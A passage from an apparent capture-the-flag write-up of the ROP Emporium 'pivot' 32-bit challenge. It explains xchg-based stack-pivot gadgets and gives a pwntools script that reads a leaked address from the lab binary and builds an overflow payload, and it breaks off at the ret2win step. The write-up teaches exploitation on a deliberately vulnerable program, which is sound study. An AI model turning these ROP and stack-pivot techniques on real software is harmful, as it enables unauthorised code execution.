 ![pivot gadgets](/images/pivot/x86-pivot-gadgets.png)

The
[xchg instruction](https://www.felixcloutier.com/x86/xchg){:target="_blank"}{:rel="noopener noreferrer"}
will exchange/swap the values of the provided registers.
With these gadgets, we have a way to control 
the stack pointer `esp`. 

The program provides an address to switch to, but it
changes every time it's run. This means
we need to create a payload based on the output. `pwntools`
is able to read the output of a program so we can
change the stack pointer `esp` with this python code

```python
#!/bin/python3
from pwn import *

pop_eax = 0x0804882c
xchg_esp_eax = 0x0804882e

# set esp to addr
def set_esp(addr):
    payload = p32(pop_eax) + p32(addr)
    payload += p32(xchg_esp_eax)
    return payload

# create pivot payload
io = process('./pivot32')
io.recvuntil(b'pivot: ')
addr_output = io.recvline()
# remove \n and convert to number
malloc_addr = addr_output[0:-1]
malloc_addr = int(malloc_addr, 16)
pivot_payload = b'A' * 44
pivot_payload += set_esp(malloc_addr)
```

## ret2win
After our stack pivots, it will continue to run our
ROP chain in this new location. Our next step is to
call the `ret2win` function to read the flag. The
only problem is this function isn't imported!

### Library Foothold
> Analyze the library `libpivot32.so` and compare it to
> the `pivot32` binary
{: .prompt-tip }
